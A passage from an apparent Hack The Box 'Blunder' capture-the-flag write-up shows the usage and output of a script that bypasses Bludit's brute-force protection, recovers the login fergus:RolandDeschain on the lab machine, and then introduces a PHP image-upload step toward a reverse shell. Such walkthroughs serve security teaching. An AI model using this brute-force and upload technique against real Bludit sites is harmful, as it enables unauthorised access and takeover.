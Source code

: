 ```shell
cfx:  ~/Documents/htb/blunder
→ ./exploit.py -h
usage: exploit.py [-h] [-l URL] [-u USERLIST] [-p PASSLIST]

Bludit <= 3.9.2 Auth Bruteforce Mitigation Bypass

optional arguments:
  -h, --help            show this help message and exit
  -l URL, --url URL     Path to Bludit (Example: http://127.0.0.1/admin/login.php)
  -u USERLIST, --userlist USERLIST
                        Username Dictionary
  -p PASSLIST, --passlist PASSLIST
                        Password Dictionary

Exploit Usage :
./exploit.py -l http://127.0.0.1/admin/login.php -u user.txt -p pass.txt
./exploit.py -l http://127.0.0.1/admin/login.php -u /Directory/user.txt -p /Directory/pass.txt
```
On running the exploit with proper arguments, it will display each attempting login credential and on successful login will display the credential to use.

```shell
cfx:  ~/Documents/htb/blunder
→ ./exploit.py -l http://10.10.10.191/admin/ -u user.txt -p pass.txt
[*] Bludit Auth BF Mitigation Bypass Script by ColdFusionX

[┘] Brute Force: Testing -> fergus:the
[<] Brute Force: Testing -> fergus:Load
[▘] Brute Force: Testing -> fergus:Plugins
[.] Brute Force: Testing -> fergus:Site
[◓] Brute Force: Testing -> fergus:Page

[..SNIP..]

[◓] Brute Force: Testing -> fergus:fictional
[.] Brute Force: Testing -> fergus:character
[|] Brute Force: Testing -> fergus:RolandDeschain

[*] SUCCESS !!
[+] Use Credential -> fergus:RolandDeschain
```

Great ! We have a username and password to login `fergus:RolandDeschain`

## Shell as www-data

Using `fergus:RolandDeschain` we can login successfully.

### PHP Shell - Image Upload

Now that we are authenticated we can replicate the **Code Execution** vulnerability steps mentioned on [**Github issue 1081**](https://github.com/bludit/bludit/issues/1081) and get ourselves a reverse shell on the box.
